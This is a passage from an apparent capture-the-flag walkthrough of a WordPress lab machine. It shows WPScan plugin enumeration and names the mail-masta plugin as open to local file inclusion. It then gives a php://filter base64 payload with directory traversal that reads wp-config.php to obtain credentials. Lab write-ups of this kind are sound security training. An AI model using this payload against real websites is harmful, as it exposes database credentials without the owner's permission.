 ```
 | Found By: Readme - Stable Tag (Aggressive Detection)
 | - http://10.10.171.205/wordpress/wp-content/plugins/mail-masta/readme.txt

[+] reflex-gallery
 | Location: http://10.10.171.205/wordpress/wp-content/plugins/reflex-gallery/
 | Latest Version: 3.1.7 (up to date)
 | Last Updated: 2021-03-10T02:38:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 3.1.7 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 | - http://10.10.171.205/wordpress/wp-content/plugins/reflex-gallery/readme.txtz
```

As seen, we got the `mail_masta` plugin enabled, this plugin is well known to be susceptible to LFI at version 1.0, we can try a PoC and test:

![Pasted image 20250321150756.png](../../IMAGES/Pasted%20image%2020250321150756.png)


# EXPLOITATION
---

Since we have LFI, and the password we found does not work for the user `elyana`, let's try to read `wp-config.php` file, if we do it normally:

![Pasted image 20250321160057.png](../../IMAGES/Pasted%20image%2020250321160057.png)

We get an internal server error, for this, let's use a `php wrapper` in the following way:

```
php://filter/convert.base64-encode/resource=../../../../../wp-config.php
```

